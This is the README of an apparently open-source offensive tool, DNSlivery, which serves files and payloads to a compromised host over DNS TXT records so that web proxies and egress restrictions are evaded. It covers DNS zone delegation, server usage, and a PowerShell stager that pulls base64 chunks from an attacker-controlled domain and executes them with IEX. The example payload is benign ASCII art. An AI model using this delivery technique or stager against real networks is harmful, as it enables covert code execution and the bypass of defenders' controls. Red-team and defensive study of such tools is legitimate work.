

# DNSlivery
Easy files and payloads delivery over DNS.

- [DNSlivery](#dnslivery)
- [Acknowledgments](#acknowledgments)
- [Description](#description)
  - [What problem are you trying to solve?](#what-problem-are-you-trying-to-solve)
  - [How does it work?](#how-does-it-work)
  - [Requirements](#requirements)
- [Setup](#setup)
  - [DNS Zone](#dns-zone)
  - [DNSLivery](#dnslivery)
- [Usage](#usage)
  - [Server](#server)
  - [Target](#target)

# Acknowledgments
This project has been originally inspired by [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) and [Joff Thyer](https://twitter.com/joff_thyer)'s technical segment on the Paul's Security Weekly podcast #590 ([youtu.be/CP6cIwFJswQ](https://youtu.be/CP6cIwFJswQ)).

# Description
## What problem are you trying to solve?
Easily deliver files and/or payloads to a compromised target where classic web delivery is not possible and **without the need for a dedicated client software**. This applies to restricted environments where outgoing web traffic is forbidden or simply inspected by a curious web proxy.


Even though more complete DNS tunneling tools already exist (s.a. [dnscat2](https://github.com/iagox86/dnscat2) and [iodine](https://code.kryo.se/iodine/)), they all require to run a dedicated client on the target. The problem is that there is probably no other way then DNS to deliver the client in such restricted environments. In other words, building a DNS communication channel with these tools require to already have a DNS communication channel.

In comparison, DNSlivery only provides one-way communication from your server to the target but does not require any dedicated client to do so. Thus, if you need to build a reliable two-way communication channel over DNS, use DNSlivery to deliver the client of a more advanced DNS tunneling tool to your target.

## How does it work?
Just like most DNS tunneling tools, DNSlivery uses `TXT` records to store the content of files in their base64 representation. However, it does not require to setup a full-fledged DNS server to work. Instead, it uses the [scapy](https://scapy.net/) library to listen for incoming DNS packets and craft the desired response. 


As most files do not fit in a single `TXT` record, DNSlivery will create multiple ordered records containing base64 chunks of the file. As an example, the above diagram illustrates the delivery of the 42<sup>nd</sup> chunk of the file named `file`.

In order to easily retrieve all base64 chunks and put them back together in their original format, DNSlivery will also generate a single cleartext stager per file.



Currently, only PowerShell stagers are supported.


## Requirements
DNSlivery does not require to build a complex server infrastructure. In fact, there are only two simple requirements: 

- be able to create a `NS` record in your public DNS zone
- have a Linux server capable of receiving udp/53 traffic from the Internet

# Setup
## DNS Zone
The first step is to delegate a sub-domain to the server that will run DNSlivery by creating a new `NS` record. As an example, I created the following record to delegate the sub-domain `dnsd.no0.be` to the server at `vps.no0.be`.

```
dnsd    IN  NS vps.no0.be.
```

If your zone is managed by a third-party provider, refer to their documentation to create the `NS` record.

## DNSLivery
The only requirements to run DNSlivery are `python3` and its `scapy` library.
```
git clone https://github.com/no0be/DNSlivery.git && cd DNSlivery
pip install -r requirements.txt
```

# Usage
## Server
DNSlivery will serve all files of a given directory like (`pwd` by default):

```
usage: dnslivery.py [-h] [-p PATH] [-s SIZE] [-v] interface domain nameserver

DNSlivery - Easy files and payloads delivery over DNS

positional arguments:
  interface             interface to listen to DNS traffic
  domain                FQDN name of the DNS zone
  nameserver            FQDN name of the server running DNSlivery

optional arguments:
  -h, --help            show this help message and exit
  -p PATH, --path PATH  path of directory to serve over DNS (default: pwd)
  -s SIZE, --size SIZE  size in bytes of base64 chunks (default: 255)
  -v, --verbose         increase verbosity
```

**Example**: 
```
$ sudo python3 dnslivery.py eth0 dnsd.no0.be vps.no0.be -p /tmp/dns-delivery

DNSlivery - Easy files and payloads delivery over DNS

[*] File "file" ready for delivery at file.dnsd.no0.be (7 chunks)
[*] Listening for DNS queries...
```

## Target
On the target, start by **retrieving the stager** of the desired file by requesting its dedicated `TXT` record.

| Action  | Stager                     | Description                                           |
| ------- | -------------------------- | ----------------------------------------------------- |
| Print   | `[filename].[domain]`      | (**Default**) Print the delivered file to the console |
| Execute | `[filename].exec.[domain]` | Execute the delivered file (useful for scripts)       |
| Save    | `[filename].save.[domain]` | Save the delivered file to disk (useful for binaries) |

Then, simply **copy and paste the stager quoted in the response to a PowerShell console** to retrieve the file on the target.

**Example**:
```
PS> nslookup -type=txt file.exec.dnsd.no0.be
Server:  one.one.one.one
Address:  1.1.1.1

Non-authoritative answer:
file.exec.dnsd.no0.be   text =

        "IEX([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((0..6 | % {Resolve-DnsName -type TXT -Name "file.$_.dnsd.no0.be" | Where-Object Section -eq Answer | Select -ExpandProperty Strings}))))"

PS> IEX([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((0..6 | % {Resolve-DnsName -type TXT -Name "file.$_.dnsd.no0.be" | Where-Object Section -eq Answer | Select -ExpandProperty Strings}))))
Fight Bugs                      |     |
                                \\_V_//
                                \/=|=\/
                                 [=v=]
                               __\___/_____
                              /..[  _____  ]
                             /_  [ [  M /] ]
                            /../.[ [ M /@] ]
                           <-->[_[ [M /@/] ]
                          /../ [.[ [ /@/ ] ]
     _________________]\ /__/  [_[ [/@/ C] ]
    <_________________>>0---]  [=\ \@/ C / /
       ___      ___   ]/000o   /__\ \ C / /
          \    /              /....\ \_/ /
       ....\||/....           [___/=\___/
      .    .  .    .          [...] [...]
     .      ..      .         [___/ \___]
     .    0 .. 0    .         <---> <--->
  /\/\.    .  .    ./\/\      [..]   [..]
 / / / .../|  |\... \ \ \    _[__]   [__]_
/ / /       \/       \ \ \  [____>   <____]
```